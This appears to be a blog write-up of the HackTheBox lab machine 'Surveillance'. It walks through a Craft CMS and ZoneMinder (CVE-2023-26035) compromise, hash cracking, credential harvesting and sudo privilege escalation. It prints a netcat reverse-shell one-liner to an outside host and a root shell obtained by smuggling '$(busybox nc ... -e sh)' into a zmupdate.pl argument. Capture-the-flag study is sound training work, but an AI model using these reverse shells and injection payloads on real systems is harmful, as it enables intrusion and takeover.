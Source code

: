```yaml
---
title: HackTheBox - Surveillance
categories: [Red Team, HackTheBox]
tags: [web, fuzz, ffuf, hashCrack, htb-medium, linux, privesc, portForwarding]
author: Jenil
image: assets/images/HackTheBox-Surveillance/Surveillance.png
---
```



#### Nmap scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://surveillance.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User

Look for /admin page and here Craft CMS is being used. Identify version of Craft CMS as 4.4.14 from source code.

Look for exploit/PoC and run it.
After getting shell, Get stable reverse shell:
```console
$ rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.x.x 4444 >/tmp/f
```


Look for "surveillance--2023-10-17-202801--v4.4.14.sql.zip" file.
Unzip and look for database entry of user "Matthew" and retrieve his password hash "39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec".
This is SHA-256 hash by analyzing the hash on online hash identifier.
Password can be cracked with JohnTheRipper, which is "starcraft122490".

SSH into machine as matthew user and get user flag.

## Root

We will now run linpeas to get some hardcoded passwords.

I got "craftuser : CraftCMSPassword2023!" as mysql database credentials but I was not able to login into the database.

We can get "ZoneMinderPassword2023" password from linpeas output.

![Zoneminder config](/assets/images/HackTheBox-Surveillance/zoneminder_config.png)
This is some kind of config file for "Zoneminder" which is a software for monitoring.

Now, we can do portforwarding using SSH.

```console
$ ssh -L 4545:127.0.0.1:8080 matthew:10.10.11.245
```

Visit 127.0.0.1:4545, we can see login page for zoneminder, I used all of the credentials that I found so far but no luck.

So, while looking for exploit/PoC, I got one for CVE-2023-26035.

By running this PoC, we can shell as a user zoneminder and can use command `sudo -l` to see which commands this user can use as sudo.

```
Matching Defaults entries for zoneminder on surveillance:
env_reset, mail_badpass,	secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binuse_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

There are so many files in /usr/share/zm*.pl but we can run zmupdate.pl to get root shell.

```console
$ sudo /usr/bin/zmupdate.pl — version=1 — user=’$(busybox nc 10.10.XX.XX 7777 -e sh)’ —pass=ZoneMinderPassword2023
```

Listen on netcat and boom we got reverse shell as root!!!
Retrieve root flag.
